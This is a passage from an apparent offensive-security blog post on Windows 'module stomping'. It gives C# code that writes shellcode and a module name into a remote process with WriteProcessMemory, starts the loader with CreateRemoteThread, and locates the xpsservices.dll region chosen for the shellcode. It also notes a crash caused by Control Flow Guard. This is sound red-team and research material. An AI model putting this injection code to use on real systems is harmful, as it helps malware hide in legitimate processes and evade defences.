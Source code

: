Prior to injecting the shellcode we need to allocate some read/execute memory within the process address space for our executable shim, along with some read only memory to hold the string containing the module name to load.  The last phase of the DLL loading step is then to simply kick of a thread within the remote process using the pointer to our allocated shim shellcode and the pointer to the module name as the one and only parameter.

```C#
Win32.WriteProcessMemory(process.Handle, allocShim, shim, (uint)shim.Length, out UIntPtr _);
Win32.WriteProcessMemory(process.Handle, allocModule, encModuleName, (uint)encModuleName.Length, out UIntPtr _);
var hThread = Win32.CreateRemoteThread(process.Handle, IntPtr.Zero, 0, allocShim, allocModule, 0, IntPtr.Zero);
Win32.WaitForSingleObject(hThread, INFINITE);
```

Now we can see `xpsservices.dll` has been loaded.

![](/images/module-stomping/xps-loaded.png "xpsservices.dll loaded")

#### Injecting the Shellcode

Next, we want to write our shellcode somewhere within the memory region(s) assigned to it.  The first attempt was simply to write to the module's `BaseAddress`, which you can find this C# using the `Process` class.

```c#
// Re-fetch the process information
process = Process.GetProcessById(process.Id);

IntPtr baseAddress;

// Iterate through each ProcessModule
foreach (ProcessModule module in process.Modules)
{
    if (module.ModuleName.Equals("xpsservices.dll", StringComparison.OrdinalIgnoreCase))
    {
        baseAddress = module.BaseAddress;
        break;
    }
}
```

This will give us an address like `0x7ffd4fcf0000`.  Cross-referencing in Process Hacker, it seems to be within this highlighted region.

![](/images/module-stomping/base-address.png "xpsservices.dll BaseAddress")

With the BaseAddress, we can just add a page to get into that main `RX` region, like:

```c#
baseAddress = module.BaseAddress + 0x1000
```

However, trying to execute shellcode from this location results in a crash thanks to [Control Flow Guard](https://docs.microsoft.com/en-us/windows/win32/secbp/control-flow-guard).
